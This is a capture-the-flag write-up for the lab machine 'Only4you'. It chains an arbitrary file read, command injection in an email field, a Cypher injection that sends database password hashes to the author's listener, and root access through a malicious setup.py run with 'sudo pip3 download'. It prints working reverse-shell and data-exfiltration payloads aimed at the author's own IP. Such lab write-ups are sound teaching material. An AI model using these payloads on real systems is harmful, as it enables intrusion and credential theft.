

## Enumeration
Initial nmap:
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-04-22 16:11 EDT
Nmap scan report for 10.10.11.210
Host is up (0.038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:83:e0:a9:fd:43:df:38:19:8a:aa:35:43:84:11:ec (RSA)
|   256 83:f2:35:22:9b:03:86:0c:16:cf:b3:fa:9f:5a:cd:08 (ECDSA)
|_  256 44:5f:7a:a3:77:69:0a:77:78:9b:04:e0:9f:11:db:80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.41 seconds
```

There are no extra interesting ports, only port 80 for an http webpage and 22 for ssh once credentials can be acquired.

Visiting the webpage requires we add `only4you.htb` to our hosts file:
/etc/hosts
```
10.10.11.210 only4you.htb
```

The server is powered by nginx:
```bash
$ curl -I http://only4you.htb                                            
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 22 Apr 2023 20:48:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 34125
Connection: keep-alive
```

### Exploring subdomains
```
$ gobuster vhost -u http://only4you.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://only4you.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.only4you.htb Status: 200 [Size: 2191]
```

We see an extra subdomain at `beta.only4you.htb`.
Viewing the subdomain, we see a beta site, and a button to download source code in a zip file:


Using burpsuite, we see that the download is performed via GET request to `beta.only4you.htb/source`.


If this had been related to a function (i.e: ?download=source), then it might be worth exploring directory traversal techniques.

### Analyzing beta site source code

Checking the source zip that is given, we see right away that the server is utilizing python:
```bash
$ unzip source.zip     
Archive:  source.zip
   creating: beta/
  inflating: beta/app.py             
   creating: beta/static/
   creating: beta/static/img/
  inflating: beta/static/img/image-resize.svg  
   creating: beta/templates/
  inflating: beta/templates/400.html  
  inflating: beta/templates/500.html  
  inflating: beta/templates/convert.html  
  inflating: beta/templates/index.html  
  inflating: beta/templates/405.html  
  inflating: beta/templates/list.html  
  inflating: beta/templates/resize.html  
  inflating: beta/templates/404.html  
   creating: beta/uploads/
   creating: beta/uploads/resize/
   creating: beta/uploads/list/
   creating: beta/uploads/convert/
  inflating: beta/tool.py
```

There is an interesting uploads folder, as well as a `tool.py` file. The very first thing we can do is look at the routes defined in `app.py`, as this will tell us all the valid pages we can visit.

```python
$ cat app.py | grep route
@app.route('/', methods=['GET'])
@app.route('/resize', methods=['POST', 'GET'])
@app.route('/convert', methods=['POST', 'GET'])
@app.route('/source')
@app.route('/list', methods=['GET'])
@app.route('/download', methods=['POST'])
```
Note it is worth reading the full source code, but for simple reading I selected only the route lines.

There is a download page as previously discussed, and exploring the code for this route shows us that there have been efforts to mitigate directory traversal techniques:
```python
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

Moving up a folder with `../` has been prohibited, but python will often accept absolute paths as well. To check for this, we can simply try to download /etc/passwd:

```bash
$ curl http://beta.only4you.htb/download -d "image=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<...SNIP...>
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

### Using Arbitrary File Read to retrieve main site source code

By defining the absolute path of the file we wish to access, we can still bypass the rudimentary filters placed. Note for later, the system has two users: john and dev.

Looking for ssh keys, unfortunately we cannot acquire:
```html
$ curl http://beta.only4you.htb/download -d "image=/home/john/.ssh/id_rsa"
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/list">/list</a>. If not, click the link.
```
In this case, redirection is the result of a file not existing.

It would be nice if we could view the source code associated with the main website, `only4you.htb`. To access, we need to find a way to know the folder names and location of files.

Using nginx configuration files:
```
$ curl http://beta.only4you.htb/download -d "image=/etc/nginx/sites-enabled/default"
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
        listen 80;
        server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

Here in the proxy_pass segments, we are given the full paths to our web roots:
`/var/www/only4you.htb/` and `/var/www/beta.only4you.htb/`. For python webservers, the main code is usually written as `app.py` or possibly `main.py`, however first I wanted to check any `git` info is available:
```html
$ curl http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/.git/HEAD"
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/list">/list</a>. If not, click the link.
```

There was nothing here, so we can explore the source code of `app.py` on the main webpage:
```
$ curl http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"
```
Source code:
```python
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

We don't see much here, but take a look at the imports associated. `flask` is a standard python module for web servers, and `uuid` is also commonly within the library. However, `form` is very generic and does not exist in the pip library. This is likely coming from another python file somewhere. Since non-library imports follow current working directory schema, we know that `form.py` will also exist in this same folder. If, perhaps, it existed in `tools/form.py`, we would see the import line reflect this: `from tools.form import sendmessage`.

Viewing form.py:
```
$ curl http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/form.py"
```
Full code:
```python
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
        if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
                return 0
        else:
                domain = email.split("@", 1)[1]
                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                output = result.stdout.decode('utf-8')
                if "v=spf1" not in output:
                        return 1
                else:
                        domains = []
                        ips = []
                        if "include:" in output:
                                dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                dms.pop(0)
                                for domain in dms:
                                        domains.append(domain)
                                while True:
                                        for domain in domains:
                                                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                                                output = result.stdout.decode('utf-8')
                                                if "include:" in output:
                                                        dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                                        domains.clear()
                                                        for domain in dms:
                                                                domains.append(domain)
                                                elif "ip4:" in output:
                                                        ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                                        ipaddresses.pop(0)
                                                        for i in ipaddresses:
                                                                ips.append(i)
                                                else:
                                                        pass
                                        break
                        elif "ip4" in output:
                                ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                ipaddresses.pop(0)
                                for i in ipaddresses:
                                        ips.append(i)
                        else:
                                return 1
                for i in ips:
                        if ip == i:
                                return 2
                        elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
                                return 2
                        else:
                                return 1

def sendmessage(email, subject, message, ip):
        status = issecure(email, ip)
        if status == 2:
                msg = EmailMessage()
                msg['From'] = f'{email}'
                msg['To'] = 'info@only4you.htb'
                msg['Subject'] = f'{subject}'
                msg['Message'] = f'{message}'

                smtp = smtplib.SMTP(host='localhost', port=25)
                smtp.send_message(msg)
                smtp.quit()
                return status
        elif status == 1:
                return status
        else:
                return status
```

## Foothold
### Command Injection vulnerability in message form

Within `issecure`, the re.match follows a rather complex regex. To get a more thorough understanding as to what is passing or failing, the simplest approach is to use a [regex matcher](https://regex101.com/)


We can see we need a string of letters or numbers (one `.- or _` allowed), followed by a `@`, another string of letters or numbers, followed by a `.`, then at least 2 more letters to pass. The next interesting component is the operations `domain` and `result`. Our query is split by the `@` symbol, and the second field is run through a dig:
```python
domain = email.split("@", 1)[1]
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```
Since the regex is  not performing any filtering, we can add whatever we want following our valid `asdf@asf.com`, and this will enter the dig command. Using this, we can abuse command injections:
```
$ curl http://only4you.htb/ -d "email=asdf@asdf.com;%20curl%2010.10.14.139&subject=&message="
```
Meanwhile on my listener:
```
$ nc -nvlp 80                    
listening on [any] 80 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.210] 42580
GET / HTTP/1.1
Host: 10.10.14.139
User-Agent: curl/7.68.0
Accept: */*
```

We can use this to spawn a reverse shell:
```
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.139/8888 0>&1
```

payload:
```
$ curl http://only4you.htb/ -d "email=asdf@asdf.com;%3b+bash+-c+'/bin/bash+-i+>%26+/dev/tcp/10.10.14.139/8888+0>%261'&subject=&message="
```
On listener:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.210] 54938
whoami
www-data
```

### Enumerating the system as www-data

Running netstat, we find unusual ports open:
```
www-data@only4you:/$ netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
```

These ports can be viewed internally via chisel. Placing chisel on the box:
```
www-data@only4you:/tmp$ wget 10.10.14.139/chisel
--2023-Apr-23 15:11:50--  http://10.10.14.139/chisel
Connecting to 10.10.14.139:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.25M  1.28MB/s    in 7.4s    

2023-04-23 15:11:58 (1.12 MB/s) - ‘chisel’ saved [8654848/8654848]

www-data@only4you:/tmp$
```

Setting up chisel
on kali:
```
$ ./chisel server -p 8000 --reverse
```
On only4you:
```
www-data@only4you:/tmp$ chmod +x chisel
www-data@only4you:/tmp$ ./chisel client 10.10.14.139:8000 R:3000:127.0.0.1:3000
```
Now we can visit `localhost:3000` in our browser, and view the page on `only4you` listening at port 3000:


We can see an internal git service. There is another interesting port at 8001, but for now let's take a look at this page

We see two users viewable, john and administrator:


There are no repositories veiwable unfortunately, so it might be best to return to this after credentials are acquired.

To view the 8001 page, we must resubmit a new chisel client:
```
www-data@only4you:/tmp$ ./chisel client 10.10.14.139:8000 R:8001:127.0.0.1:8001
```

We see yet another login frontpage:


Fortunately though, this one is different. We can get in with the very simple credentials, `admin:admin` !

Viewing the dashboard, there is interesting information in the task checklist of the corner:


It mentions the database is migrated over to neo4j,  and selecting the employees tab on the left-hand side immediately shows us how we might interact with the database.



It looks like we can dump the entire table with a blank search, but how might we exploit this kind of database?

### Cypher Injection vulnerability in neo4j

Fortunately, [hacktricks has a page dedicated to cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j). 

Probing which injectable query is being used was quite a pain, as it will often result in 500 error or no change. Eventually, however, I found a payload in which the server will send database information to my own listener:
search payload:
```
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.139/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```
On my listener:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [22/Apr/2023 21:44:31] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [22/Apr/2023 21:44:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```
This current payload only produces the neo4j version, name, and edition. However, it we're looking for a way to dump all information on the database. Now that the injection is established, surely it won't be too hard?
Eventually I learn to dump databases:
```
' OR 1=1 WITH 1 as a CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.139/?d=' + d AS y RETURN y//
```
On listener:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [22/Apr/2023 23:48:22] "GET /?d=user HTTP/1.1" 200 -
10.10.11.210 - - [22/Apr/2023 23:48:22] "GET /?d=employee HTTP/1.1" 200 -
```
Employee is likely the data we are already viewing, and user likely has the login credentials we are seeking. After trying once again for several hours, I finally generate a payload that can dump the contents:
```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.139/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
On listener:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [23/Apr/2023 14:20:22] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 14:20:22] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 14:20:23] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 14:20:23] "GET /?username=john HTTP/1.1" 200 -
```
we know one pair of creds as admin:admin, but the other one is interesting:
`john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6`

Fortunately this cracks in a popular online rainbow table:


We now have credentials as `john:ThisIs4You`.

## Privilege Escalation
### Enumerating as user john

Now wish `ssh`, we can tunnel without the need for chisel
```
$ ssh -D 1080 john@only4you.htb
```

We can return back to the gog server, and possibly login with john


There is 1 repository as Test, but there doesn't seem to be anything interesting here.

Checking `sudo` privileges:
```
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

### Abusing pip3 download to execute commands as root

It looks like we can use `pip3` to download any repository zip as root. When researching what can be done about this, I find [this article, Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/). It seems that when pip is downloading/installing, `setup.py` is executed and in our case, will be done so as root. This allows us to supply malicious code in `setup.py`, and we can perform privilege escalation.

Zipping the repo seems rather complicated, so I just cloned the repo, edited my paylod into setup.py, and followed instructions to comress/build:
```
$ git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi/
```
changes to setup.py:
```
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("bash -c '/bin/bash -i >& /dev/tcp/10.10.14.139/8888 0>&1'")

class RunEggInfoCommand(egg_info):
<...SNIP...>
```
Building:
```
$ python -m build
<...SNIP...>
adding 'this_is_fine_wuzzi-0.0.1.dist-info/LICENSE'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/METADATA'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/WHEEL'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/top_level.txt'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/RECORD'
removing build/bdist.linux-x86_64/wheel
Successfully built this_is_fine_wuzzi-0.0.1.tar.gz and this_is_fine_wuzzi-0.0.1-py3-none-any.whl
```
This produces a whl and a .tar.gz file:
```
$ cd dist              
$ ls
this_is_fine_wuzzi-0.0.1-py3-none-any.whl  this_is_fine_wuzzi-0.0.1.tar.gz
```
Uploading file:


Running the sudo command:
```
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  ERROR: HTTP error 404 while getting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  ERROR: Could not install requirement http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz because of error 404 Client Error: Not Found for url: http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz                                                                                                          
ERROR: Could not install requirement http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz because of HTTP error 404 Client Error: Not Found for url: http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz for URL http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
```

It appears that the download fails, because the url is unreachable? After exploring a little more, I remember that the repo was only visible after logging in. In order for this url to work (without cookies/login credentials), then it needs to be public:


Now, executing the sudo command:
```
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.8 kB 10.1 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
```

Meanwhile on my listener:
```
$ nc -nvlp 8888           
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.210] 34386
root@only4you:/tmp/pip-req-build-3yl3w6ls# whoami
whoami
root
root@only4you:/tmp/pip-req-build-3yl3w6ls#
```

The exploit worked, and now we have full access as root.

## Reflection
This box felt particularly well-earned as the Cypher Injection segment ended up being a nightmare. An entirely unfamiliar database language, coupled with every injection attempt respond with `error 500`. It turned into a great learning experience, with a lot of skills/techniques challenged throughout the box. As usual, I found Privilege escalation, the abuse of `sudo pip3 download`, to be a really cool highlight of a method I had not known.
